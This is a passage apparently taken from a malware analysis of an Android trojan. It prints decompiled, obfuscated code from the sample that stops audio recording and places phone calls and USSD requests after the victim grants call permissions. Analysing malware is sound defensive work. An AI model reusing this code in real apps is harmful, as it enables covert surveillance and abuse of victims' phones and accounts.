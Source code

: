 ```cs
                                                                                                                                                                                                                                                                  // tick
                                        izyiyumk.this.startService(intent0);
                                        return;
                                    }

                                    izyiyumk.this.b.e(this, izyiyumk.this.c.aY, "");
                                    return;
                                }

                                izyiyumk.this.b.e(this, izyiyumk.this.c.aY, "");
                            }
                            catch(Exception unused_ex) {
                            }

                            return;
                        }
                        catch(Throwable unused_ex) {
                            return;
                        }

                        izyiyumk.this.b.a(izyiyumk.this.a("ZGJmNzA5OGFmYQ=="), izyiyumk.this.a("ZGJlYzEzOTQ5ZTA0NDQxNjg2OWUzZjEzNmQwNjRlZTE5MQ=="));  // STOP RECORD SOUND
                                                                                                                                                      // SOUND

```


# Classic features

## Call and call forward

After granting all call permissions, the malware will have the ability to call or forward call. 

```cs
  try {
                Intent intent0 = new Intent("android.intent.action.CALL");
                intent0.addFlags(0x10000000);
                intent0.setData(Uri.parse("tel:" + Uri.encode(s26)));
                context1.startActivity(intent0);
                String s27 = "USSD: " + s26 + "[143523#]";
                i1.a("USSD", s27);
                i1.f(context1, i1.a.ab, s27);
                return;
            }
            catch(Exception unused_ex) {
            }

            try {
                i1.a("USSD", "Error: Start USSD");
                i1.a("USSD", "Error USSD[143523#]");
                i1.f(context1, i1.a.ab, "Error USSD[143523#]");
                return;
            label_1329:
                i2 = jwozx0.a;
                s28 = jSONObject5.getString(jwozx0.a("ZTY="));  // n
            }
            catch(Exception unused_ex) {
                return;
            }

```